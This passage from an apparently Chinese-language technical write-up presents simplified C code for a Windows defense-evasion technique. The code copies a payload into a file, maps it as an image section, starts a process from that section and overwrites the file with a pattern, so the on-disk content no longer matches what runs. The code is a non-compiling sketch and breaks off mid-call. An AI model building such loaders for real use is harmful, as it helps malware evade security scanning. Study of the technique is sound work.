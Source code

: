 ```c
BOOL CopyFileContent(HANDLE hSource, HANDLE hTarget) {
    // 获取源文件大小
    LARGE_INTEGER fileSize;
    GetFileSizeEx(hSource, &fileSize);

    // 分配缓冲区并复制
    BYTE* buffer = malloc(1MB);
    while (remaining > 0) {
        ReadFile(hSource, buffer, toRead, &bytesRead, NULL);
        WriteFile(hTarget, buffer, bytesRead, &bytesWritten, NULL);
        remaining -= bytesRead;
    }

    return TRUE;
}
```

#### 2. `OverwriteFileWithPattern()`
用模式覆盖文件：

```c
BOOL OverwriteFileWithPattern(HANDLE hFile, BYTE pattern) {
    // 获取文件大小
    LARGE_INTEGER fileSize;
    GetFileSizeEx(hFile, &fileSize);

    // 用模式填充缓冲区
    BYTE* buffer = malloc(1MB);
    memset(buffer, pattern, bufferSize);

    // 覆盖整个文件
    SetFilePointer(hFile, 0, NULL, FILE_BEGIN);
    while (remaining > 0) {
        WriteFile(hFile, buffer, toWrite, &bytesWritten, NULL);
        remaining -= bytesWritten;
    }

    FlushFileBuffers(hFile);
    return TRUE;
}
```

#### 3. `wmain()` - 主流程

```c
int wmain(int argc, WCHAR* argv[]) {
    // [1] 打开源文件（真实载荷）
    HANDLE hSource = CreateFileW(sourceFile, GENERIC_READ, ...);

    // [2] 创建目标文件（保持句柄打开）
    HANDLE hTarget = CreateFileW(targetFile, GENERIC_READ | GENERIC_WRITE, ...);

    // [3] 复制载荷到目标文件
    CopyFileContent(hSource, hTarget);
    CloseHandle(hSource);

    // [4] 创建镜像节（SEC_IMAGE） - 内容被缓存！
    HANDLE hSection;
    NtCreateSection(&hSection, SECTION_ALL_ACCESS, NULL, 0,
                    PAGE_READONLY, SEC_IMAGE, hTarget);

    // [5] 从节创建进程
    HANDLE hProcess;
    NtCreateProcessEx(&hProcess, PROCESS_ALL_ACCESS, NULL,
                      GetCurrentProcess(), PROCESS_CREATE_FLAGS_INHERIT_HANDLES,
```